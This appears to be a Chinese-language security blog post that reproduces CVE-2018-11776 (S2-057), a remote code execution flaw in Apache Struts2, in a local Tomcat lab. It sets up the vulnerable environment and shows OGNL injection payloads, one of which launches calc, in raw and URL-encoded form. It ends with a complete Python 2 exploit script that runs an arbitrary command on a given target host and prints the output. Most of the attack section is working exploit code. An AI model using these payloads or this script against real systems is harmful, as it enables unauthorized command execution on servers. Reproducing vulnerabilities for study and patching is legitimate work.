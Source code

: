 ```yaml
---
title: CVE-2018-11776漏洞复现
date: 2019-08-2 14:20:00
author: dylan
top: false
cover: false
password: 
categories: web安全
tags: 
    - 漏洞复现
    - CVE-2018-11776
    - struts2
---
```


# 0x01 漏洞概述
2018年8月23日，ApacheStrust2发布最新安全公告，ApacheStruts2 存在远程代码执行的高危漏洞，该漏洞由SemmleSecurity Researchteam的安全研究员汇报，漏洞编号为CVE-2018-11776（S2-057）。

定义XML配置时如果namespace值未设置且上层动作配置（Action Configuration）中未设置或用通配符namespace时可能会导致远程代码执行。
URL标签未设置value和action值且上层动作未设置或用通配符namespace时可能会导致远程代码执行，以及系统命令到服务器系统中去 。

***
# 0x02 影响版本
Apache struts 2.3-Apache struts 2.3.34

Apache struts 2.5-Apache struts 2.5.16 

***
# 0x03 漏洞复现
## 复现环境

* windows 10
* jdk1.8.0_191
* apache-tomcat-7.0.96
* struts-2.3.34

## 环境搭建

首先安装jdk，并配置环境变量，不再赘述

下载 [apache-tomcat](https://tomcat.apache.org/download-70.cgi) 并解压
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190802122817.png)

下载 [Struts-2.3.34](http://archive.apache.org/dist/struts/2.3.34/) 解压，并将apps目录下的 `struts2-showcase.war` 复制到tomcat的webapps目录下
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190802123100.png)

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190802123449.png)

在tomcat下bin目录下运行startup.bat脚本来启动tomcat，启动后自动部署struts2
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190802123719.png)

浏览器访问 `http://127.0.0.1:8080/struts2-showcase`，出现如下界面即为部署成功了。
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190802123957.png)

正常部署完成struts如上所示，但为了复现struts2-057漏洞，需要修改如下两个文件（tomcat目录下）

* D:\Program Files\Java\apache-tomcat-7.0.96\webapps\struts2-showcase\WEB-INF\src\java\struts-actionchaining.xml
* D:\Program Files\Java\apache-tomcat-7.0.96\webapps\struts2-showcase\WEB-INF\classes\struts-actionchaining.xml

注释掉原来的xml代码，修改如下
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190802124843.png)

```
<struts>
	<package name="actionchaining" extends="struts-default">
		<action name="actionChain1" class="org.apache.struts2.showcase.actionchaining.ActionChain1">
			<result type="redirectAction">
			<param name = "actionName">register2</param>
			</result>	
		</action>
		<action name="actionChain2" class="org.apache.struts2.showcase.actionchaining.ActionChain2">
			<result type="chain">actionChain3</result>
		</action>
		<action name="actionChain3" class="org.apache.struts2.showcase.actionchaining.ActionChain3">
			<result>/WEB-INF/actionchaining/actionChainingResult.jsp</result>
		</action>
	</package>
</struts>
```

在tomcat下bin目录下运行shutdown.bat，startup.bat脚本来重启tomcat。
**重启tomcat！！！**
**重启tomcat！！！**
**重启tomcat！！！**
浏览器访问`http://192.168.10.230:8080/struts2-showcase/`,漏洞环境成功搭建

## 漏洞利用
在URL构造ognl表达式，再加上配置文件中的action标签中的name属性值，并以.action结尾
`http://127.0.0.1:8080/struts2-showcase/${(50+50)}/actionChain1.action`
执行完成之后发现跳转到了
`http://127.0.0.1:8080/struts2-showcase/100/register2.action`
执行了ognl 表达式 ${(50+50)},漏洞存在

进一步利用漏洞，弹出计算器，构造payload

```
${(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.getExcludedClasses().clear()).(#ct.setMemberAccess(#dm)).(#cmd=@java.lang.Runtime@getRuntime().exec("calc"))}
```
进行URL编码 
```
%24%7b%28%23%64%6d%3d%40%6f%67%6e%6c%2e%4f%67%6e%6c%43%6f%6e%74%65%78%74%40%44%45%46%41%55%4c%54%5f%4d%45%4d%42%45%52%5f%41%43%43%45%53%53%29%2e%28%23%63%74%3d%23%72%65%71%75%65%73%74%5b%27%73%74%72%75%74%73%2e%76%61%6c%75%65%53%74%61%63%6b%27%5d%2e%63%6f%6e%74%65%78%74%29%2e%28%23%63%72%3d%23%63%74%5b%27%63%6f%6d%2e%6f%70%65%6e%73%79%6d%70%68%6f%6e%79%2e%78%77%6f%72%6b%32%2e%41%63%74%69%6f%6e%43%6f%6e%74%65%78%74%2e%63%6f%6e%74%61%69%6e%65%72%27%5d%29%2e%28%23%6f%75%3d%23%63%72%2e%67%65%74%49%6e%73%74%61%6e%63%65%28%40%63%6f%6d%2e%6f%70%65%6e%73%79%6d%70%68%6f%6e%79%2e%78%77%6f%72%6b%32%2e%6f%67%6e%6c%2e%4f%67%6e%6c%55%74%69%6c%40%63%6c%61%73%73%29%29%2e%28%23%6f%75%2e%67%65%74%45%78%63%6c%75%64%65%64%50%61%63%6b%61%67%65%4e%61%6d%65%73%28%29%2e%63%6c%65%61%72%28%29%29%2e%28%23%6f%75%2e%67%65%74%45%78%63%6c%75%64%65%64%43%6c%61%73%73%65%73%28%29%2e%63%6c%65%61%72%28%29%29%2e%28%23%63%74%2e%73%65%74%4d%65%6d%62%65%72%41%63%63%65%73%73%28%23%64%6d%29%29%2e%28%23%63%6d%64%3d%40%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%40%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%22%63%61%6c%63%22%29%29%7d
```
拼接
```
127.0.0.1:8080/struts2-showcase/%24%7b%28%23%64%6d%3d%40%6f%67%6e%6c%2e%4f%67%6e%6c%43%6f%6e%74%65%78%74%40%44%45%46%41%55%4c%54%5f%4d%45%4d%42%45%52%5f%41%43%43%45%53%53%29%2e%28%23%63%74%3d%23%72%65%71%75%65%73%74%5b%27%73%74%72%75%74%73%2e%76%61%6c%75%65%53%74%61%63%6b%27%5d%2e%63%6f%6e%74%65%78%74%29%2e%28%23%63%72%3d%23%63%74%5b%27%63%6f%6d%2e%6f%70%65%6e%73%79%6d%70%68%6f%6e%79%2e%78%77%6f%72%6b%32%2e%41%63%74%69%6f%6e%43%6f%6e%74%65%78%74%2e%63%6f%6e%74%61%69%6e%65%72%27%5d%29%2e%28%23%6f%75%3d%23%63%72%2e%67%65%74%49%6e%73%74%61%6e%63%65%28%40%63%6f%6d%2e%6f%70%65%6e%73%79%6d%70%68%6f%6e%79%2e%78%77%6f%72%6b%32%2e%6f%67%6e%6c%2e%4f%67%6e%6c%55%74%69%6c%40%63%6c%61%73%73%29%29%2e%28%23%6f%75%2e%67%65%74%45%78%63%6c%75%64%65%64%50%61%63%6b%61%67%65%4e%61%6d%65%73%28%29%2e%63%6c%65%61%72%28%29%29%2e%28%23%6f%75%2e%67%65%74%45%78%63%6c%75%64%65%64%43%6c%61%73%73%65%73%28%29%2e%63%6c%65%61%72%28%29%29%2e%28%23%63%74%2e%73%65%74%4d%65%6d%62%65%72%41%63%63%65%73%73%28%23%64%6d%29%29%2e%28%23%63%6d%64%3d%40%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%40%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%22%63%61%6c%63%22%29%29%7d/actionChain1.action
```

成功执行
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190802131043.png)

## EXP

```
#coding: utf-8
#! python2
import requests
import sys


def expliot(host, command, path):
    '''
    2.3.34版本
    payload1:
    ${(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.getExcludedClasses().clear()).(#ct.setMemberAccess(#dm)).(#w=#ct.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter()).(#w.print(@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('ipconfig').getInputStream()))).(#w.close())}
    2.3.20版本
    payload2:
    ${(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#w=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter()).(#w.print(@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('ipconfig').getInputStream()))).(#w.close())}
    '''

    str1 = "${(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.getExcludedClasses().clear()).(#ct.setMemberAccess(#dm)).(#w=#ct.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse').getWriter()).(#w.print(@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('" + command + "').getInputStream()))).(#w.close())}"
    str1 = str1.encode('hex')
    str2 = "${(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#w=#context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse').getWriter()).(#w.print(@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('" + command + "').getInputStream()))).(#w.close())}"
    str2 = str2.encode('hex')

    # 需要进行URL编码
    payload1 = ""
    for i in range(0, len(str1), 2):
        payload1 += '%' + str1[i:i + 2]

    payload2 = ""
    for i in range(0, len(str2), 2):
        payload2 += '%' + str2[i:i + 2]
    url1 = host + '/' + payload1 + '/' + path
    url2 = host + '/' + payload2 + '/' + path

    res1 = requests.get(url1, allow_redirects=False)
    res2 = requests.get(url2, allow_redirects=False)
    if res1.status_code == 200 and res2.status_code != 200:
        print("Exploit successful:")
        print(res1.content)
    elif res2.status_code == 200 and res1.status_code != 200:
        print("Exploit successful:")
        print(res2.content)
    else:
        print('The target is likely unvulnerable,mabye your struts2 version is too high!')


if __name__ == '__main__':
    if len(sys.argv) < 4:
        print("Usage: python s2-057-exp.py http://www.xxx.com/ {command} {The path such as:actionChain1.action}")
    else:
        expliot(sys.argv[1].strip(), sys.argv[2], sys.argv[3].strip())
```
使用方法：

`python2 struts2.py http://www.xxx.com/ {command} {The path such as:actionChain1.action}`

例如:
`python2 struts2.py http://192.168.50.197:8080/struts2-showcase/ "ipconfig" actionChain1.action`

***
# 参考文章
[CVE-2018-11776漏洞从搭建到复现](http://www.cuittk.cn/2019/01/02/CVE-2018-11776漏洞从搭建到复现/)